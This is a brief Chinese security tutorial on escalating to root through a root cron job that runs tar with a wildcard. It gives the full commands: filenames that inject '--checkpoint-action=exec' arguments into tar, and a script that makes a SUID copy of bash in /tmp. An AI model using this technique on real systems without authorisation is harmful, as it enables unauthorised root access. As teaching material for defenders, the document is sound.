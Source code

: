 定时任务常用于定期备份文件。

## **存在root的tar定时任务创建SUID提权**

如果定时任务中，存在root的定时任务是执行bf.sh，而bf.sh里面的命令是备份一个目录/tmp/123/下的文件，
```
cd /tmp/123;tar -zcf /tmp/bf.tar.gz *
```
由于tar命令进行*全部打包时，也是一个文件名一个文件名打包，如果有文件名为-checkpoint=1文件和-checkpoint-action=exec=shtest.sh文件时，会被当作参数执行。
于是攻击者可以在被打包的目录里执行，创建三个文件test.sh ， --checkpoint=1   ， -checkpoint-action=exec=sh test.sh。
```
echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > test.sh  
chmod +x test.sh  
创建test.sh脚本为了将/bin/bash复制到/tmp下，并提权SUID权限，同时将命令写入到test.sh脚本中

echo "" > --checkpoint=1   
echo "" > "--checkpoint-action=exec=sh test.sh"   
```
此时执行定时任务，就会生成/tmp/bash，执行bash就是root会话了。


条件：web权限账户基本上不太可能能进行提权，普通用户要有 备份的文件夹的写入权。